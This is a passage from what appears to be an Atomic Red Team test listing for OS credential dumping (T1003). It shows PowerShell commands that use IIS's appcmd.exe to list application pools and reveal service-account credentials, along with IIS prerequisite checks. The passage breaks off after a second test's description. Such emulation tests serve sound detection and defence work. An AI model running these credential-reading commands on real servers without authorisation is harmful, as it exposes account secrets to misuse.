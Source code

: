 ```
us/1588815661085917186?cxt=HHwWhIDUyaDbzYwsAAAA)                                                                                                                                                                                                                                                                                                                                                Attack Commands:                                                                                                                                                                                                                        Executor: powershell                                                                                                                                                                                                                    ElevationRequired: True                                                                                                                                                                                                                 Command:                                                                                                                                                                                                                                C:\Windows\System32\inetsrv\appcmd.exe list apppool /@t:*                                                                                                                                                                               C:\Windows\System32\inetsrv\appcmd.exe list apppool /@text:*                                                                                                                                                                            C:\Windows\System32\inetsrv\appcmd.exe list apppool /text:*                                                                                                                                                                                                                                                                                                                                                                                                                     Dependencies:                                                                                                                                                                                                                           Description: IIS must be installed prior to running the test                                                                                                                                                                            Check Prereq Command:                                                                                                                                                                                                                   if ((Get-WindowsFeature Web-Server).InstallState -eq "Installed") {exit 0} else {exit 1}                                                                                                                                                Get Prereq Command:                                                                                                                                                                                                                     Install-WindowsFeature -name Web-Server -IncludeManagementTools                                                                                                                                                                         [!!!!!!!!END TEST!!!!!!!]                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               [********BEGIN TEST*******]                                                                                                                                                                                                             Technique: OS Credential Dumping T1003                                                                                                                                                                                                  Atomic Test Name: Retrieve Microsoft IIS Service Account Credentials Using AppCmd (using config)                                                                                                                                        Atomic Test Number: 5                                                                                                                                                                                                                   Atomic Test GUID: 42510244-5019-48fa-a0e5-66c3b76e6049                                                                                                                                                                                  Description: AppCmd.exe is a command line utility which is used for managing an IIS web server. The config command within the tool reveals the service account credentials configured for the webserver. An adversary may use these credentials for other malicious purposes. [Reference](https://twitter.com/0gtweet/status/1588815661085917186?cxt=HHwWhIDUyaDbzYwsAAAA)
                
Attack Commands:
Executor: powershell
ElevationRequired: True
```